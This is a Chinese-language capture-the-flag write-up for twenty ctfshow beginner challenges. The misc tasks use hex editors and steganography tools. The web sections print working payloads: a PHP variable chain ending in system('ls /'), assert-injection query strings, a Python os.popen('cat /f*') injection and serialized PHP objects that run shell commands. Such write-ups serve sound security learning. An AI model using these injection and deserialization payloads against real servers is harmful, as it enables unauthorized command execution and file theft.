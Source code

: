 ## 菜狗入门题writeup

[TOC]

##### 一、杂项签到

使用010 editor查找ASCII的ctf字段，找到flag。

##### 二、损坏的压缩包

使用010 editor查看文件类型，将文件格式改为png。

##### 三、谜之栅栏

使用010 editor的compare files功能找到不同字段。

##### 四、你会数数吗

使用010 editor的histogram功能对可见字符数进行排序。

<img src="./src/4.1.png" alt="4.1" style="zoom:50%;" />

##### 五、你会异或吗

使用010 editor的hex operations功能进行0x50异或得到正常图片。

##### 六、flag一分为二

额Mac上不好操作直接找了[wp](https://blog.csdn.net/m0_68012373/article/details/128960816)。

##### 七、我是谁

一道网页交互和图像处理的题目，看[脚本](./src/whoami.py)。

##### 八、you and me

盲水印的题目，直接用GitHub开源的BlindWaterMark-master。

##### 九、我吐了你随意

unicode零宽字符的题目，用[网站工具](http://330k.github.io/misc_tools/unicode_steganography.html)解码。

##### 十、web签到

按源代码要求用hackbar提交内容执行打印flag操作。注意使用cookie传参的时候对CTFshow-QQ群:=post_var进行url编码。

<img src="./src/web1.png" alt="image-20240117204139359" style="zoom:50%;" />

##### 十一、我的眼里只有$

```shell
_=a&a=b&b=c&c=d&d=e&e=f&f=g&g=h&h=i&i=j&j=k&k=l&l=m&m=n&n=o&o=p&p=q&q=r&r=s&s=t&t=u&u=v&v=w&w=x&x=y&y=z&z=A&A=B&B=C&C=D&D=E&E=F&F=G&G=H&H=I&I=system('ls /');
```

##### 十二、抽老婆

任意文件读取的题目，下载网页flask框架下的[app.py](./src/getwifi.py)，修改后本地部署，将本地的cookie中session中复制到远程，调用验证session的getflag函数`@app.route('/secret_path_U_never_know',methods=['GET'])`，也可以看网上另一种[方法](https://blog.csdn.net/weixin_45908624/article/details/128575744?ops_request_misc=&request_id=&biz_id=102&utm_term=ctfshow%20抽老婆&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-3-128575744.142%5Ev81%5Ekoosearch_v1,201%5Ev4%5Eadd_ask,239%5Ev2%5Einsert_chatgpt&spm=1018.2226.3001.4187)。

##### 十三、一言既出

```php
第一种payload	?num=114514);//		形成括号闭合后直接注释后面的内容
第二种payload	?num=114514%2b1805296		使用url编码的加号，在弱类型相等时只检测%前面的内容，后面则会执行加法
第三种payload	?num=114514);(19199810		形成括号闭合后assert("intval(114514);(19199810)==1919810")进行绕过
```

##### 十四、驷马难追

和十三相同，只是增加了过滤规则，使用url编码绕过即可，第二种payload也同样适用。

##### 十五、TapTapTap

相信自己的手速可以玩玩看（用手机玩很容易过），最终会得到路径，实际上直接看源代码就行了，找到游戏结束的输出用base64解码得到同样的提示信息。

<img src="./src/taptap.png" alt="taptap" style="zoom:50%;" />

<img src="/Users/zeroking/Desktop/CTF/awesomeCTF/WriteUp/ctfshow/新手入门/src/taptap2.png" alt="taptap2" style="zoom:50%;" />

##### 十六、Webshell

看一下源代码可知是反序列化的题目，那么构造简单的payload用[PHP在线运行](https://www.jyshare.com/compile/1/)进行序列化，对cmd进行payload传参查看源代码。

```php
$poc = new Webshell();
$poc->cmd='cat fla*';
echo serialize($poc);
//		O:8:"Webshell":1:{s:3:"cmd";s:8:"cat fla*";}
```

##### 十七、传说之下（雾）

既然是js就可以篡改数据，查看game.js源代码，在控制台将Game中的score改为通关分数即可查看到flag。

<img src="./src/snake0.png" alt="snake0" style="zoom:50%;" />

<img src="./src/snake1.png" alt="snake1" style="zoom:50%;" />

<img src="./src/snake2.png" alt="snake2" style="zoom:50%;" />

##### 十八、算力超群

```shell
payload：
/_calculate?number1=&operator=&number2=__import__('os').popen('cat /f*').read()
```

##### 十九、茶歇区

用hackbar好像操作不了，被迫投奔bp抓包，只是一道数值溢出的 ~~pwn~~ web题。先操作一次再把得到的post方法发给repeater，用以下的payload重发两次即可。但是e为什么是这么多个9还不清楚原因，貌似换成其他数量不能成功。

```PHP
a=0&b=0&c=0&d=0&e=999999999999999999&submit=%E5%8D%B7%E4%BA%86%E5%B0%B1%E8%B7%91%EF%BC%81
```

<img src="./src/rest0.png" alt="rest0" style="zoom:50%;" />

<img src="./src/rest1.png" alt="rest1" style="zoom:50%;" />

##### 二十、小舔田？

反序列化的题，看[payload](./src/serial.php)代码丢进去运行即可，得到的序列化参数为

```php
?code=O%3A4%3A"Moon"%3A1%3A%7Bs%3A4%3A"name"%3BO%3A16%3A"Ion_Fan_Princess"%3A1%3A%7Bs%3A8%3A"nickname"%3Bs%3A9%3A"小甜甜"%3B%7D%7D
```

